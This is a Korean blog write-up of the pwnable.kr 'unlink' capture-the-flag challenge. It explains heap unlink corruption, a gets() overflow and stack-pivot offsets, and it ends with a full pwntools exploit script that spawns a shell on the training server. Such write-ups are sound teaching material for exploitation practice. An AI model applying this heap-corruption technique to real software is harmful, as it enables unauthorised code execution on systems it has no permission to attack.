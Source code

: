 ```yaml
---
title: ! "[pwnable.kr] unlink"
excerpt_separator: <!--more-->
date: 2018-09-19
comments : true
tags:
  - pwnable
  - unlink
  - heap
  - chaem
---
```

<br>
`pwnable.kr` Toddler's Bottle의 마지막 문제인 unlink문제를 보겠습니다!

<!--more-->

문제를 먼저 풀어보고 싶은 사람은 아래 링크로 고고! 

[pwnable.kr](http://pwnable.kr/play.php)  

![]({{ site.baseurl }}/images/chaem/pwnable.kr/unlink_01.PNG)  
<br>
우선 문제의 제목대로 unlink문제는 unlink corruption에 관한 문제입니당 후후  
문제 바이너리를 쭉 살펴봤을 때 보이는 특징은

```  

1. system함수를 주고있어요!!!  
shell을 따는 문제라는 것을 알 수 있으며, 나중에 요 함수를 호출할 날이 올 것을 고대하고 있으면 되겠네용  

2. 그 취약하기로 유명한 gets함수로 입력을 받고 있어요!!! overflow 냄새가 납니당 ㅎㅎ  

3. stack /heap 주소를 친절하게 leak해서 알려주고 있어요!!!  
주소를 다 알려주었으니 main함수의 ret을 shell주소로 덮을 일만 남았네용  

```

<br>
![]({{ site.baseurl }}/images/chaem/pwnable.kr/unlink_02.PNG)  
<br>
일단, heap의 구조를 봅시다. fd와 bk의 위치에 주소값을 보면 A<->B<->C 이렇게 서로를 가리키 있는 것을 볼 수 있습니다.  
<br>
![]({{ site.baseurl }}/images/chaem/pwnable.kr/unlink_03.PNG)  
참고 이미지 출처 : [Heap 영역에서 발생하는 취약점을 알아보자!](https://bpsecblog.wordpress.com/2016/10/06/heap_vuln/)  
<br>
그렇지만 unlink함수를 실행한 후에는 A<->C만 가리키도록 바뀌게됩니다.  
unlink함수는 어떻게 생겼는지 함 봐봅시다!!
<br>
![]({{ site.baseurl }}/images/chaem/pwnable.kr/unlink_04.PNG)  
<br>
즉, B의 fd와 bk를 조작하여 B를 빼고 A와 C가 서로를 가리키 한다는 것을 알 수 있었죵!  
<br>
![]({{ site.baseurl }}/images/chaem/pwnable.kr/unlink_05.PNG)  
<br>
그리고 위에서 한번 언급했듯이 gets를 사용함으로써 overflow가 발생합니다.  
a 16개까지는 괜찮았으나 17개부터 segmentation fault!
이 overflow를 이용해서 B의 fd와 bk까지 우리가 직접 조작할 수 있게되는 것입니다.  
문제에서 친절하게 stack과 heap의 주소를 leak해주기 때문에 이 주소를 그대로 받아오고, main함수의 return 값을 shell(system함수가 들어있는 함수)함수의 주소로 덮어주면 됩니다.  
하지만!!!! shell함수가 code영역을 사용하여 `쓰기권한`이 없기때문에 다른 방법을 더 모색해봐야합니다.  
<br>
![]({{ site.baseurl }}/images/chaem/pwnable.kr/unlink_06.PNG)  
<br>
gdb로 main함수의 마지막 부분을 보면 우리가 일반적으로 알고있는 구조와는 다른 것을 볼 수 있습니다. ebp-4의 값을 ecx레지스터에 넣고 다시 ecx-0x4를 참조해 esp를 조정하기 때문에, 이 esp에서 eip를 설정할 수 있게 됩니다.  
unlink함수를 보면 ebp를 조작가능한 것을 볼 수 있습니다. 즉 unlink에서부 부터 ebp를 조작하여 최종적으로 esp를 컨트롤할 수 있게 되는것입니다.  
따라서, `ebp-4의 stack값을 덮어 쓰면, 주소가 가리키는 것보다 4bytes 앞부터 실행될 것입니다. 우리는 heap을 제어할 수 있으므로 그 시점에 shell의 주소를 쓰면 되는 것이죠!`  
<br>
![]({{ site.baseurl }}/images/chaem/pwnable.kr/unlink_07.PNG)  
<br>
ebp-0x4의 주소와 문제에서 leak해주는 heap주소의 차이는 0x10입니다. 즉, ebp-0x4의 주소와 A의 시작주소가 0x10차이 나는 것입니다. (B->fd)  
또한, A->buf에서 16bytes를 계산하여야 B이지만, 이미 4bytes를 포함하여 계산한 것이므로 12byte로 계산해주면 됩니다. (B->bk)  
<br>
![]({{ site.baseurl }}/images/chaem/pwnable.kr/unlink_08.PNG)  
<br>

```  

#! usr/bin/env python
from pwn import *

ssh = ssh(user='unlink', host='pwnable.kr', port=2222, password='guest')
s = ssh.process("/home/unlink/unlink")

s.recvuntil('here is stack address leak: ')
stack_addr = int(s.recv(10),16)
s.recvuntil('here is heap address leak: ')
heap_addr = int(s.recv(10),16)

log.success('Stack leak : ' + hex(stack_addr))
log.success('Heap leak : ' + hex(heap_addr))

payload = p32(0x080484eb) #call shell
payload +="A"*12
payload += p32(heap_addr+12) #B->bk
payload += p32(stack_addr+0x10) #B->fd

s.sendlineafter('get shell!\n', payload)
s.interactive()

```
